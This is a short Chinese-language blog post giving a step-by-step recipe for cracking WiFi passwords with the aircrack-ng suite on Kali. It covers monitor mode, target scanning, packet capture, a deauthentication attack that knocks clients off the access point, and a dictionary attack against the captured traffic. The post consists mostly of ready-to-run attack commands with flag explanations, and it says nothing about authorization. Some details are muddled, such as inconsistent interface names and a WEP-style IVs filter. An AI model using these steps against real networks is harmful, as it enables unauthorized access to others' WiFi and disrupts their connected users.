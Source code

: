 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/fulls/03.jpg" class="fit image"> 
  
## 实验过程

### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
 *-w是指定我的密码本

